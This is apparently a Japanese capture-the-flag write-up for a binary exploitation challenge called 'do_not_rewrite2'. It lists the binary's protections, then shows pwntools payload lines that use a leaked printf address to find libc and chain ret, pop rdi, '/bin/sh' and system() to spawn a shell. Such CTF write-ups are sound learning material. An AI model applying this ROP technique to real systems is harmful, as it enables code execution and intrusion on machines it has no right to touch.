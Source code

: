 # My solution for do_not_rewrite2

## 方針

実行ファイルのセキュリティ機構を確認．
- RELRO: Full RELRO
- STACK CANARY: Canary found
- NX: NX enabled
- PIE: PIE enabled

`do_not_rewrite`であった`show_flag()`がなくなっているため，ROPで`system("/bin/sh")`を実行してFLAGを取得することを目指す．

## 解法

ヒントとして`printf`のアドレスが与えられるため，この値からlibcのベースアドレスを求める．  
`libc_base_addr = printf_addr - libc.symbols['printf']`

RDIレジスタに`"/bin/sh"`をセットして`system()`を呼び出す．  
`payload += p64(libc_base_addr + pop_rdi_ret)`  
`payload += p64(libc_base_addr + next(libc.search(b"/bin/sh\x00")))`  
`payload += p64(libc_base_addr + libc.sym["system"])`

ただしスタックのアライメントのため，最初に`ret`を追加する．  
`payload = p64(libc_base_addr + ret)`

詳細は [solve.py](./solve.py) を参照．

## メモ

与えられた`libc.so.6`でバイナリを実行するために  
`./pwninit --bin chall --libc libc.so.6`

## 参考リンク

- [ROP - Return Oriented Programing](https://book.hacktricks.xyz/v/jp/binary-exploitation/rop-return-oriented-programing)

- [pwninit](https://github.com/io12/pwninit)